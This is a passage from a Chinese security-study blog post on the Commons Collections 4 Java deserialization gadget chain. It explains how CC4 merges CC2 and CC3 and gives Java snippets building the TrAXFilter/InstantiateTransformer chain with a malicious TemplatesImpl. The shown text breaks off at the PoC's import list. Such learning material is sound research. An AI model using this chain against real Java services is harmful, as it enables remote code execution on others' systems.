 ```yaml
---
layout: post
title: "CommonsCollection4反序列化链学习"
date: "2022-04-02T18:20:22.765Z"
---
```

CommonsCollection4反序列化链学习
=========================

CommonsCollection4
==================

1、前置知识
------

由于cc4没有新的知识点，主要是用cc2，然后稍微cc3结合了，所以我们可以看ysoserial源码，自己尝试构造一下，把cc2通过获取InvokeTransformer()获取templatesImpl的newtransformer()方法，改成用cc3的InstantiateTransformer初始化。那就把跟cc2不同的代码学习下。

### 1.1、transformingComparator

与cc2最大的不容就是transformingComparator的构造方式不同，这里是通过获取InstantiateTransformer实例化TrAXFilter并且把templatesImpl恶意类传入，其实就是**InstantiateTransformer(templateImpl).transform(TrAXFilter)**。而且这就是cc3所用的方式，所以cc3在cc4占很少的部分，主要还是cc2

    Transformer[] transformers=new Transformer[]{
            new ConstantTransformer(TrAXFilter.class),//第一个获取TrAXFilter
            new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templatesImpl})//通过InstantiateTransformer的构造方法传入我们的恶意类templatesImpl，调用其transform方法，实例化传入的TrAXFilter，调用其构造方法。再调用newTransform
    
    };
    ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);//新建一个ChainedTransformer类，传入我们的恶意transformers,只要调用transform方法就会反射执行我们的传入的恶意传入我们的恶意transformers
    
    TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer);
    

2、PoC分析
-------

### 2.1、Poc

    import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
    import javassist.ClassPool;
    import javassist.CtClass;
    import org.apache.commons.collections4.Transformer;
    import org.apache.commons.collections4.comparators.TransformingComparator;
    import org.apache.commons.collections4.functors.ChainedTransformer;
    import org.apache.commons.collections4.functors.ConstantTransformer;
    import org.apache.commons.collections4.functors.InstantiateTransformer;
    import org.apache.commons.collections4.functors.InvokerTransformer;
    
    import javax.xml.transform.Templates;
    import java.io.*;
    import java.lang.reflect.Field;
    import java.util.PriorityQueue;
    